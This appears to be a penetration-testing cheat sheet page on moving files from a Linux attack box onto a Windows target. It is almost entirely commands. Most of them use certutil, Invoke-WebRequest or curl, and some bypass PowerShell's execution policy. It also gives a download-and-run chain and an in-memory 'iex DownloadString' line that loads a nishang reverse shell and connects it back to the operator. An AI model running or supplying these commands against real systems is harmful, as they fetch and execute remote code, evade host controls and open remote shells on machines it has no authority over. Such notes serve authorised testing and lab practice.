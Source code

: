 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2024-6-26
tags: ["file transfer", "Windows", "evil-winrm"]
---
```


{{< tab set1 tab1 active >}}CMD{{< /tab >}}
{{< tab set1 tab2 >}}Powershell{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

<div>

```console
python3 -m http.server <LOCAL_PORT>
```

</div>

<br>

<div>

```console
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE>
```

```console
# Upload and Run
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE> && C:\ProgramData\<FILE>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

<div>

```console
python3 -m http.server <LOCAL_PORT>
```

</div>

<br>

<div>

```console
# Long version
Invoke-WebRequest http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -OutFile C:\ProgramData\<FILE>
```

```console
# Short version
iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: PowerShell 3.0+*</small>

</div>

<div>

```console
# Long version
powershell.exe -ExecutionPolicy bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

```console
# Short version
powershell -ep bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: curl is not always available*</small>

</div>

<div>

```console
# Load into memory and Run
```

```console
# Long version
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Short version
iex (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Combined version
iex (iwr http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
# Evil-winrm built-in function
upload '<LOCAL_FILE_PATH>' "C:\ProgramData\<FILE>"
```

</div>

{{< /tabcontent >}}

<br>